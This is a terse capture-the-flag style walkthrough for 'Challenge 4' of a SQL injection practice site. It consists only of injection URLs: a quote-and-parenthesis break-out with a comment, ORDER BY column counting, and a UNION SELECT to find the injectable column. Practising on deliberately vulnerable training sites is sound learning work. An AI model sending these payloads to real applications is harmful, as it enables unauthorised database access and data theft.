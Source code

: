 <h1>Challenge 4</h1>

Note- No explanation, only links with relevant step as per Challenge 1. 

 

Challenge Link- http://leettime.net/sqlninja.com/tasks/basic_ch4.php?id=1 

 

http://leettime.net/sqlninja.com/tasks/basic_ch4.php?id=1')--+ 

 

http://leettime.net/sqlninja.com/tasks/basic_ch4.php?id=1')+ORDER+BY+4--+ 

Result- 4 columns 

 

http://leettime.net/sqlninja.com/tasks/basic_ch4.php?id=1')+UNION+SELECT+1,2,3,4--+ 

Vulnerable column=2 

 

Challenge end. 
